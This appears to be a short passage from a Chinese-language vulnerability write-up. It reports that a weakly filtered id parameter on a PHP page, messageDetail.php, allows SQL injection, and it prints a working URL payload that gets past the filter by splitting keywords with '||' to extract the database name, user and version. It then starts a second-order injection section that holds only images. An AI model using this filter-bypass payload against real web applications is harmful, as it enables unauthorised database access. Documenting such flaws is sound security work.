 在通过数据库查询数据库详细信息的messageDetail.php页面，查询参数通过sqlwaf过滤不严格导致sql注入。

​![image](assets/image-20240926202114-8yspv4j.png)​

```payload
http://localhost/messageDetail.php?id=7%20uni||on%20sele||ct%20database(),user(),version(),4#
```

​![image](assets/image-20240926202417-knrgmvc.png)​

### 二次注入

​![image](assets/image-20240926203453-m1mj4ce.png)​